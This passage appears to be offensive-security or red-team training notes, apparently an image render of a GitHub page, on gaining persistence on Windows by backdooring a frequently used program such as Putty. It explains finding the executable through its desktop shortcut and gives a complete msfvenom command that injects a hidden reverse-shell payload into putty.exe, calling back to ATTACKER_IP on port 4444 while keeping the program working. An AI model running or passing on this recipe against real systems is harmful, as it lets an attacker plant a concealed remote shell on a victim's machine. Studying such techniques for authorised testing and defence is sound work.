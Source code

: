 #### Goal
Gain persistence by ***modifying files the target user frequently uses*** - without breaking functionality or raising suspicion.
- An `.exe` file (e.g., `Putty`) found on the desktop is likely to be used frequently. So, check the shortcut's properties to ***find the target path***: `C:\Program Files\Putty\putty.exe`.
- Copy the original executable to your attacker machine.
- Modify it by injecting a payload that runs silently alongside the original functionality.

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```
